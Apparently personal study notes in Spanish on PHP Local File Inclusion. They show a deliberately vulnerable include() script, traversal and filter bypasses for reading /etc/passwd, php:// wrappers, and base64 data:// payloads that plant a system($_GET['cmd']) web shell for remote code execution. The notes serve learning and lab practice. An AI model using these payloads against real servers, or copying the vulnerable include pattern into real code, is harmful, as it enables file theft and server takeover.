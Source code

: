  Nos vamos a la ruta /var/www/html y creamos index.php
 Introducimos el siguiente codigo, esto hace que cuando accedamos a localhost/index.php?filename=test nos de el contenido del archivo llamado test 
?php
  $filename = $_GET['filename'];
  include($filename);

?>

Gracias a esto podemos salirnos del archivo es decir reemplazamos en la url test por /etc/passwd

http://localhost/index.php?filename=/etc/passd


Muchas veces oara segurizarlo y que no puedas salirte de la ruta poniendo /etc/passwd usan lo siguiente
?php
  $filename = $_GET['filename'];
  include("/var/ww/html/" . $filename);

?>

Pero podemos vulnerarlo aplicando un directory pass transversal de la siguiente manera
/../../../../../etc/passwd
				http://localhost/index.php?filename=../../../../../../../etc/passwd
	
Muchas veces para evitar que puedas utilizar ../../ para vulnerar la ruta utilizan str_replace:
Es decir
				?php
					  $filename = $_GET['filename'];
					  $filename = str_replace("../", "", $filename);
					  include("/var/ww/html/" . $filename);

				?>
El problema es que no es recursivo es decir si hago ....//....//....//../etc/passwd sigue teniendo la misma vulnerabilidad


Hay quienes juegan con expresiones regulares para detectar si estan intentando vulnerar
de la siguiente manera:

`<?php`
  `$filename = $_GET['filename'];`
  `$filename = str_replace("../", "", $filename);`

  `if(preg_match("/passwd/", $filename) ===1){`
    `echo "\n[!] No es posible visualizar el contenido de este archivo\n"`
  `} else {`
    `include("/var/www/html/" . $filename);`
  `}`

`?>`

Esto hace que cuando intentes aplicar ....//....//....//....//....//etc/passwd bloquee la salida a paswd
pero solo para /etc/passwd no para todas como /etc/hosts

POR LO TANTO preg_match no es recomendable
Se puede burlar de la siguiente manera, solo es necesario poner un par de barras o puntos tal queasi:
....//....//....//....//....//etc///////passwd


muchas veces por sanitizacion lo que hacen es agregar al codigo
include("/etc/hosts" . ".php")
esto hace que cuando quieras hacer una injeccion en automatico se convierte en .php 
pero se puede burlar utilizando algo llamado NULL BYTE INJECTION ES DECIR %00 o \0  para que se salte el .php
![[Pasted image 20250326171032.png]]
`php -r 'if (substr($argv[1], -6, 6) != "passwd") include($argv[1]);' '/etc//././././passwd/.'; echo`

En ese caso lo que hace es que si los ultimos 6 caracteres son passwd lo sanitiza pero ahi se muestra como en versiones anteriores basta con hacer /passwd/. y te da el contenido, en versiones mas recienteste y actualizadas no se puede


Tambien se piede hacer esto
`php -r 'if (substr($argv[1], -4, 4) != ".txt") include($argv[1]);' '/etc/passwd/.'; echo`

- `substr($argv[1], -4)`: Obtiene los últimos 4 caracteres del argumento.
    
- `!= ".txt"`: Verifica que no termine en `.txt`.
    
- `include($argv[1]);`: Si no termina en `.txt`, lo incluye.


Si yo ejecuto esto
php -r 'if (substr($argv[1], -4, 4) != ".txt") include($argv[1]);' '/var/www/test.txt'; echo
No arrojara nada 
pero si haces esto se puede bypaseear el archivo y mostrar su contenido:
php -r 'if (substr($argv[1], -4, 4) != ".txt") include($argv[1]);' '/var/www/test.txt/.'; echo 




HAY MULTIPLE WRAPERS
Uno que te convierte a base 64 /?filename=php://file/convert.base64-encode/resource=secret.php
Otro que te rota 13 posiciones el contenido
?filename=php://filter/read=string.rot13/resource=secret.php

otro para convertir utf8  utf16
php://filter/convert.iconv.UTF-8.UTF-16/resource=secret.php


ABRIMOS BURP e ingresamos en filename=hola para intereceptar peticion
vamos al repeater
Otros wrappers
RCE 
expect://whoami
cambiamos la peticion de GET a POST (dando click derecho change petition to post) e ingreamos en filename=php://input
hasta abajo ingresamos
`<?php system("whoami"); ?>`
		este solo aplica si allow_url_fopen y allow_url_include estan en ON en php.ini
Otro wrapper
?filename=data://text/plain;base64,cadena_de_codigo_base64
la cadena es -> `<?php system("whoami"); ?>` -convertida en base 64 -> PD9waHAgc3lzdGVtKCJ3aG9hbWkiKSA/Pg==

Podemos esta cadena para poder controlar cmd
`<?php system($_GET["cmd"]); ?>`
En base 64 seria esto:
PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+
Solo que en burpsuite muchas veces te urlencodea el + o otros simbolos y para ello aplicamo Ctrl+u y luego enviamos la peticion
Tal que se veria de la siguiente manera
![[Pasted image 20250328115428.png]]

oTRA FORMA MODERNA Y POCA CONOCIDA ES USAR FILTER CHAINS A TRAVES DE WRAPERS JUEGAS CON ICONV PARA ENCODEAR

la practica de filter chain es encodeAR Y DECODEAR ENCODEAR Y DECODEAR A MODO QUE LE DES LA VUELTA A LA CADENA
Se puede jugar con base 64, UTF8 CSISO2022KR, UTF32

en github hay una Herramienta llamada php filter chain generator, te uestra cada palabra y demas que puedes emplear para realizar una lfi

tambien se puede junkear php://temp para almacenar datos temporales en una envoltura similar a un fichero

c
